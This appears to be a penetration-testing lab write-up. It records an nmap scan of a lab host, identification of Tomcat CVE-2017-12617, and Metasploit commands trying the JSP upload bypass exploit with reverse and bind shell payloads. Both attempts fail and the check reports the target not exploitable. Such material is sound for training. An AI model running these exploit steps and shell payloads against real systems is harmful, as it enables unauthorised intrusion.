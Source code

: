 # Attacking Common Applications - Skills Assessment I

sudo nmap --open -sV 10.129.201.89

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-16 00:30 GMT
Nmap scan report for 10.129.201.89
Host is up (0.040s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8000/tcp open  http          Jetty 9.4.42.v20210604
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.07 seconds

http://10.129.201.89:8080/

version : 9.0.0.M1

CVE-2017-12617


sudo msfconsole -q
[msf](Jobs:0 Agents:0) >> search tomcat_jsp_upload_bypass

   0  exploit/multi/http/tomcat_jsp_upload_bypass  2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass

use 0
set LHOST 10.10.15.193
set RHOSTS 10.129.201.89
run

[*] Started reverse TCP handler on 10.10.14.88:4444 
[*] Uploading payload...
[-] Exploit aborted due to failure: unexpected-reply: Failed to upload the payload
[*] Exploit completed, but no session was created.

set payload java/jsp_shell_bind_tcp
run

[*] Uploading payload...
[-] Exploit aborted due to failure: unexpected-reply: Failed to upload the payload
[*] Exploit completed, but no session was created.

check
[*] 10.129.201.89:8080 - The target is not exploitable.
